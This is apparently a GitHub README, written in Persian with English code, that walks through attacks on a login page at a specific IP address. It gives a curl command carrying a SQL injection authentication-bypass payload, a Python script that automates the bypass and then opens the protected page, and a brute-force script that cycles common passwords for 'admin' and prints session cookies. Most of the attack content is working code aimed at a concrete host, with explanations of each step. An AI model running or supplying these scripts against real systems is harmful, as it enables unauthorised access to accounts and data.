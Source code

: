 ```
curl -v -X POST "http://82.115.20.217/login" -d "username=' OR '1'='1' --&password=123"
```

<p dir="rtl" align="justify">
دستور <span dir="ltr"><code>curl -v</code></span> یک ابزار قدرتمند خط فرمان برای ارسال درخواست‌های شبکه است. زمانی که از سوئیچ <span dir="ltr"><code>-v</code></span> (مخفف verbose) استفاده می‌کنید، <span dir="ltr"><code>curl</code></span> جزئیات کامل فرآیند ارتباط را نمایش می‌دهد که شامل اطلاعات ارسالی در هدر درخواست، پاسخ سرور و داده‌های دریافتی می‌شود. این قابلیت برای دیباگ و تحلیل دقیق تبادلات شبکه بسیار مفید است.
</p>
<p dir="rtl" align="justify">
سوئیچ <span dir="ltr"><code>-X POST</code></span> در دستور <span dir="ltr"><code>curl</code></span>، متد HTTP درخواست را به <span dir="ltr"><code>POST</code></span> تنظیم می‌کند. این متد معمولاً برای ارسال داده به سرور (مانند اطلاعات فرم، محتوای JSON یا XML) استفاده می‌شود، برخلاف متد <span dir="ltr"><code>GET</code></span> که عمدتاً برای دریافت داده به کار می‌رود.
</p>
<p dir="rtl" align="justify">
سوئیچ <span dir="ltr"><code>-d</code></span> در دستور <span dir="ltr"><code>curl</code></span> برای تعیین داده‌ها (data) یا بدنه (body) درخواست <span dir="ltr"><code>POST</code></span> استفاده می‌شود. این داده‌ها به طور پیش‌فرض با فرمت <span dir="ltr"><code>application/x-www-form-urlencoded</code></span> ارسال می‌شوند. در این مثال خاص، داده‌های ارسالی <span dir="ltr"><code>"username=' OR '1'='1' --&password=123"</code></span> نشان‌دهنده یک حمله تزریق SQL (SQL Injection) است که سعی در دور زدن مکانیزم‌های احراز هویت دارد.
</p>


# sql_injection.py

```python
import requests

def simple_sql_test():
    url = "http://82.115.20.217/login"
    
    # Payload that should work if SQL injection is possible
    payload = "admin' OR '1'='1' --"
    
    data = {
        "username": payload,
        "password": "anything"
    }
    
    session = requests.Session()
    
    try:
        response = session.post(url, data=data, allow_redirects=False)
        
        print(f"Status: {response.status_code}")
        print(f"Redirect: {response.headers.get('Location', 'None')}")
        
        if response.status_code == 302:
            print("Likely SQL injection successful!")
            print("Trying to access protected page...")
            
            # Try to access the main page with the session
            main_page = session.get("http://82.115.20.217/")
            print(f"Main page status: {main_page.status_code}")
            print(f"Main page length: {len(main_page.text)}")
            
        else:
            print("SQL injection may have failed")
            
    except Exception as e:
        print(f"Error: {e}")

# Run the simple test
simple_sql_test()
```

<p dir="rtl" align="justify">
این کد یک <span dir="ltr"><code>SQL injection</code></span> ساده را روی یک صفحه <span dir="ltr"><code>login</code></span> تست می‌کند. در خط اول، <span dir="ltr"><code>URL</code></span> مربوط به صفحه لاگین تعریف شده است. سپس یک <span dir="ltr"><code>payload</code></span> خاص ساخته می‌شود که از <span dir="ltr"><code>syntax</code></span> <span dir="ltr"><code>SQL</code></span> استفاده می‌کند تا شرط همیشه درست ایجاد کند. این <span dir="ltr"><code>payload</code></span> در فیلد <span dir="ltr"><code>username</code></span> قرار می‌گیرد و <span dir="ltr"><code>password</code></span> می‌تواند هر مقداری داشته باشد. با استفاده از <span dir="ltr"><code>requests.Session</code></span>، یک <span dir="ltr"><code>session</code></span> ایجاد می‌شود تا <span dir="ltr"><code>cookies</code></span> و <span dir="ltr"><code>state</code></span> درخواست‌ها حفظ شود.
</p>

<p dir="rtl" align="justify">
در بخش <span dir="ltr"><code>try</code></span>، یک <span dir="ltr"><code>POST request</code></span> به سرور ارسال می‌شود و <span dir="ltr"><code>allow_redirects=False</code></span> تنظیم می‌شود تا بتوان <span dir="ltr"><code>redirect</code></span> را بررسی کرد. اگر <span dir="ltr"><code>status code</code></span> برابر با <span dir="ltr"><code>302</code></span> باشد، نشان‌دهنده موفقیت‌آمیز بودن <span dir="ltr"><code>SQL injection</code></span> و دریافت <span dir="ltr"><code>session</code></span> معتبر است. سپس با استفاده از همان <span dir="ltr"><code>session</code></span>، یک <span dir="ltr"><code>GET request</code></span> به صفحه اصلی ارسال می‌شود تا دسترسی به <span dir="ltr"><code>protected page</code></span> تأیید شود. در صورت بروز خطا، <span dir="ltr"><code>exception</code></span> مربوطه و چاپ می‌شود.
</p>


# Brute Force

```python
import requests

target_url = "http://82.115.20.217/login"
username = "admin"
passwords = ["123456", "password", "admin123", "123", "admin", "1234", "12345"]

session = requests.Session()

for password in passwords:
    data = {"username": username, "password": password}
    
    try:
        response = session.post(target_url, data=data, allow_redirects=False)
        
        if (response.status_code == 302 or
            "location" in response.headers and response.headers["location"] == "/" or
            "Set-Cookie" in response.headers and "session" in response.headers["Set-Cookie"] or
            response.url != target_url):
            
            print(f"Password found: {password}")
            print(f"Status Code: {response.status_code}")
            print(f"Redirect URL: {response.headers.get('location', 'None')}")
            print(f"Session Cookie: {response.headers.get('Set-Cookie', 'None')}")
            break
            
        else:
            print(f"Failed: {password} (Status: {response.status_code})")
            
    except Exception as e:
        print(f" Error with {password}: {e}")

print("Testing with known working credentials...")
test_data = {"username": "admin", "password": "admin123"}
response = session.post(target_url, data=test_data, allow_redirects=True)

print(f"Final Status: {response.status_code}")
print(f"Final URL: {response.url}")
print(f"Response length: {len(response.text)} characters")
print("First 200 chars of response:")
print(response.text[:200])
```

<p dir="rtl" align="justify">
این کد یک <span dir="ltr"><code>brute-force attack</code></span> ساده را روی یک صفحه <span dir="ltr"><code>login</code></span> انجام می‌دهد. ابتدا <span dir="ltr"><code>target_url</code></span> و یک لیست از <span dir="ltr"><code>passwords</code></span> معمول تعریف شده‌اند. با استفاده از <span dir="ltr"><code>requests.Session()</code></span>، یک <span dir="ltr"><code>session object</code></span> ایجاد می‌شود تا <span dir="ltr"><code>cookies</code></span> و <span dir="ltr"><code>authentication state</code></span> بین درخواست‌ها حفظ شود. در حلقه <span dir="ltr"><code>for</code></span>، برای هر <span dir="ltr"><code>password</code></span> در لیست، یک <span dir="ltr"><code>POST request</code></span> با <span dir="ltr"><code>credentials</code></span> شامل <span dir="ltr"><code>username</code></span> ثابت ("admin") و <span dir="ltr"><code>password</code></span> متغیر ارسال می‌شود. پارامتر <span dir="ltr"><code>allow_redirects=False</code></span> تنظیم شده تا بتوان <span dir="ltr"><code>redirect behavior</code></span> را manually بررسی کرد.
</p>

<p dir="rtl" align="justify">
شرایط موفقیت شامل بررسی <span dir="ltr"><code>status code 302</code></span>، وجود <span dir="ltr"><code>header</code></span>های <span dir="ltr"><code>Location</code></span> یا <span dir="ltr"><code>Set-Cookie</code></span> خاص، و تغییر <span dir="ltr"><code>URL</code></span> است. اگر هر یک از این شرایط برقرار باشد، <span dir="ltr"><code>password</code></span> صحیح تشخیص داده می‌شود. در غیر این صورت، <span dir="ltr"><code>loop</code></span> ادامه می‌یابد. در نهایت، یک <span dir="ltr"><code>test</code></span> با <span dir="ltr"><code>credentials</code></span> شناخته شده ("admin:admin123") انجام می‌شود و <span dir="ltr"><code>response details</code></span> شامل <span dir="ltr"><code>status code</code></span>، <span dir="ltr"><code>final URL</code></span>، و بخشی از <span dir="ltr"><code>response content</code></span> نمایش داده می‌شود.
</p>

<p dir="rtl" align="justify">
این کد از <span dir="ltr"><code>error handling</code></span> با <span dir="ltr"><code>try-except block</code></span> استفاده می‌کند تا <span dir="ltr"><code>exceptions</code></span> احتمالی مانند <span dir="ltr"><code>network errors</code></span> را مدیریت کند. هر <span dir="ltr"><code>failed attempt</code></span> با <span dir="ltr"><code>status code</code></span> مربوطه لاگ می‌شود، در حالی که <span dir="ltr"><code>successful attempt</code></span> باعث توقف <span dir="ltr"><code>loop</code></span> و نمایش اطلاعات <span dir="ltr"><code>session</code></span> می‌شود. این رویکرد برای تست <span dir="ltr"><code>authentication mechanisms</code></span> و شناسایی <span dir="ltr"><code>weak passwords</code></span> مفید است.
</p>

